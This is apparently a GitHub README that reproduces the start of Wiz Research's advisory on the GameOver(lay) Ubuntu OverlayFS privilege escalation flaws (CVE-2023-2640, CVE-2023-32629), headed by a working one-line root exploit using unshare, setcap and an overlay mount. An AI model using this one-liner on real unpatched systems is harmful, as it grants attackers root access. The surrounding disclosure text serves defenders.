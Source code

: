 

##
#
https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability
#
https://github.com/luanoliveira350/GameOverlayFS
#
##

GameOver(lay): Easy-to-exploit local privilege escalation vulnerabilities in Ubuntu Linux affect 40% of Ubuntu cloud workloads
Wiz Research discovered CVE-2023-2640 and CVE-2023-32629, two easy-to-exploit privilege escalation vulnerabilities in the OverlayFS module in Ubuntu affecting 40% of Ubuntu cloud workloads.


```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```

Sagi Tzadik, Shir Tamari
July 27, 2023
9 minutes read




Contents
Who is vulnerable? 
What is GameOver(lay)? 
How did Ubuntu become vulnerable? 
Mitigation & detection 
Conclusions 
The research story 
Vulnerability #1: CVE-2023-2640 (ovl_copy_xattr)
Vulnerability #2: CVE-2023-32629 (ovl_copy_up_meta_inode_data) 
Responsible disclosure timeline:
References:
CVE-2023-2640 and CVE-2023-32629 were found in the OverlayFS module in Ubuntu, which is a widely used Linux filesystem that became highly popular with the rise of containers as its features enable the deployment of dynamic filesystems based on pre-built images. OverlayFS serves as an attractive attack surface as it has a history of numerous logical vulnerabilities that were easy to exploit. This makes the new discovered vulnerabilities especially risky given the exploits for the past OverlayFS vulnerabilities work out of the box without any changes. 

 The two vulnerabilities are exclusive to Ubuntu because Ubuntu introduced several changes to the OverlayFS module in 2018. These modifications did not pose any risks at the time. In 2020, a security vulnerability was discovered and patched in the Linux kernel, however due to Ubuntu’s modifications, an additional vulnerable flow was never fixed in Ubuntu. This shows the complex relationship between Linux kernel and distro versions, when both are updating the kernel for different use cases. This complexity poses hard-to-predict risks. 

Ubuntu fixed the vulnerabilities on July 24th, 2023. Users should update their kernels to the latest version.
